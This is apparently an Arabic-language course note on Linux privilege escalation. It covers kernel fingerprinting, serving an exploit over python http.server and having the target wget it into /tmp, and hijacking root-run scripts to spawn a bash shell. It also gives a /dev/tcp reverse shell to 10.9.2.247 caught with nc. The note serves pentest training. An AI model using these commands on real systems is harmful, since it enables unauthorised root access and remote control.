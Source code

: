 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```





#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

#### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![[Pasted image 20250315173114.png]]
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 

---
# ثالث سيناريوا لو لقيت ال root عامل ملف ثغره زي ph .sh .php .c. وتقدر تفتحه وتقراه 

### روح امسح الملف واعمل ملف بنفس الاسم بالظبت 

```
 rm -rf اسم الملف
```
### اكتب الكوده داخله

```
echo 'import os;os.system("/bin/bash");' >> اسم الملف
```
### اخر حاجه محتاج تعمل excution  للملف اعمله بلامر ده
##### روح الاول اعرف مسار الملف من عند ال home
```
 pwd اسم الملف
```
##### اعمل امر ال excution
```
sudo python / home اسم الملف / مسار الملف لحد ال
مثال
sudo python /home/meliodas/bak.py
```

# رابع سيناريوا لو لقيت ملف ثغره زي ph .sh .php .c. عامتا مش شرط ال root هو اللي عامله 
### تروح تحط فيه reverse shell :
#### الخطوات :
##### 1. روح اعمل  reverse shell من الموقع https://www.revshells.com/ 


##### 2. اكتب الامر ده : هيضيف ال reverse shell  لل ملف
```
echo ' اللي عملتهreverse shell ال ' >> filename 

مثال

echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
```

##### 3. روح اعمل listen علي ال port اللي عامله في ال reverse shell 

```
nc -lvnp رقم البورت
```

##### 4.  وبعدين نفذ الملف 
شوف الطريقه من ال [[manual Exploitation]]



# اختبر حفظك : [[شرح الكورس لل (Q) Linux kernel exploits]]

